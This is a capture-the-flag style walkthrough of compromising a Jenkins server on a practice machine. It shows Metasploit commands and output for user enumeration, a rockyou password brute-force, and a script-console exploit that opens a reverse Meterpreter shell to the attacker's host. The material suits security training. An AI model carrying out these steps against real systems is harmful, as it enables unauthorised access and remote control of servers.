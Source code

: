 # Jenkins

## Port scanning to identify Jenkins

Let's scan the target machine (`canyoupwnme`) with `nmap`

    $ nmap -A -T4 -sT -p1-65535 canyoupwnme
    ...
    9000/tcp  open  http        Jetty winstone-2.9
    |_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
    | http-methods:
    |_  Supported Methods: GET HEAD POST OPTIONS
    | http-robots.txt: 1 disallowed entry
    |_/
    |_http-server-header: Jetty(winstone-2.9)
    |_http-title: Dashboard [Jenkins]
    ...

Jenkins is reachable on port `9000`!

## Information gathering

Typically, Jenkins exposes an endpoint (`/people` or `/asynchPeople`) that
does not require authentication and where all the defined users are listed.
Just to be sure, we can use `jenkins_enum` auxiliary

    msf > use auxiliary/scanner/http/jenkins_enum
    msf auxiliary(jenkins_enum) > set rhosts canyoupwnme
    msf auxiliary(jenkins_enum) > set rport 9000
    msf auxiliary(jenkins_enum) > set targeturi /
    msf auxiliary(jenkins_enum) > exploit

    [*] 10.0.100.195:9000 - Jenkins Version - 1.647
    [*] 10.0.100.195:9000 - /script restricted (403)
    [*] 10.0.100.195:9000 - /view/All/newJob restricted (403)
    [+] 10.0.100.195:9000 - /asynchPeople/ does not require authentication (200)
    [*] 10.0.100.195:9000 - /systemInfo restricted (403)
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

According to `/asynchPeople`, users defined in the target machine are

*   admin (Jarvis)
*   anonymous (anonymous)

After trying the login with few terrible combinations (e.g. `admin/admin`),
let's see if Metasploit can help us

    msf > search jenkins

    Matching Modules
    ================

       Name                                         Disclosure Date  Rank       Description
       ----                                         ---------------  ----       -----------
       auxiliary/gather/jenkins_cred_recovery                        normal     Jenkins Domain Credential Recovery
       auxiliary/scanner/http/jenkins_enum                           normal     Jenkins Enumeration
       auxiliary/scanner/http/jenkins_login                          normal     Jenkins-CI Login Utility
       exploit/linux/misc/jenkins_java_deserialize  2015-11-18       excellent  Jenkins CLI RMI Java Deserialization Vulnerability
       exploit/multi/http/jenkins_script_console    2013-01-18       good       Jenkins Script-Console Java Execution

Let's try with `auxiliary/scanner/http/jenkins_login` and Rockyou wordlist

    msf > use auxiliary/scanner/http/jenkins_login
    msf auxiliary(jenkins_login) > set username admin
    msf auxiliary(jenkins_login) > set pass_file rockyou.txt
    msf auxiliary(jenkins_login) > set rhosts canyoupwnme
    msf auxiliary(jenkins_login) > set rport 9000
    msf auxiliary(jenkins_login) > set stop_on_success true
    msf auxiliary(jenkins_login) > exploit

    [-] 10.0.100.195:9000 JENKINS - LOGIN FAILED: admin:123456 (Incorrect)
    [-] 10.0.100.195:9000 JENKINS - LOGIN FAILED: admin:12345 (Incorrect)
    [-] 10.0.100.195:9000 JENKINS - LOGIN FAILED: admin:123456789 (Incorrect)
    ...
    [-] 10.0.100.195:9000 JENKINS - LOGIN FAILED: admin:flower (Incorrect)
    [-] 10.0.100.195:9000 JENKINS - LOGIN FAILED: admin:playboy (Incorrect)
    [+] 10.0.100.195:9000 - LOGIN SUCCESSFUL: admin:hello
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Yep! Credentials are `admin/hello`...

## The Groovy scripts

Two years ago, I read an interesting post entitled
[How I hacked Facebook](http://blog.dewhurstsecurity.com/2014/12/09/how-i-hacked-facebook.html).
It refers to an unprotected Jenkins instance where the author used a Groovy
script to execute some commands on the server. Why not trying the same? In the
previous Metasploit search, there is something interesting

    exploit/multi/http/jenkins_script_console

Let's try with it...

    msf > use exploit/multi/http/jenkins_script_console
    msf exploit(jenkins_script_console) > set username admin
    msf exploit(jenkins_script_console) > set password hello
    msf exploit(jenkins_script_console) > set rhost canyoupwnme
    msf exploit(jenkins_script_console) > set rport 9000
    msf exploit(jenkins_script_console) > set targeturi /
    msf exploit(jenkins_script_console) > set target 1
    msf exploit(jenkins_script_console) > exploit

    [*] Started reverse TCP handler on 10.0.100.245:4444
    [*] Checking access to the script console
    [*] Logging in...
    [*] canyoupwnme:9000 - Sending Linux stager...
    [*] Transmitting intermediate stager for over-sized stage...(105 bytes)
    [*] Sending stage (1495599 bytes) to 10.0.100.195
    [*] Meterpreter session 2 opened (10.0.100.245:4444 -> 10.0.100.195:44531) at 2016-04-18 18:13:30 +0200
    [!] Deleting /tmp/AaqyV payload file

    meterpreter > shell
    Process 1840 created.
    Channel 1 created.
    /bin/sh: 0: can't access tty; job control turned off
    $ whoami
    jenkins
    $ id
    uid=109(jenkins) gid=117(jenkins) groups=117(jenkins)
    $

## Becoming `root`

See "Becoming `root`" section in [Tomcat](./001-tomcat.md).
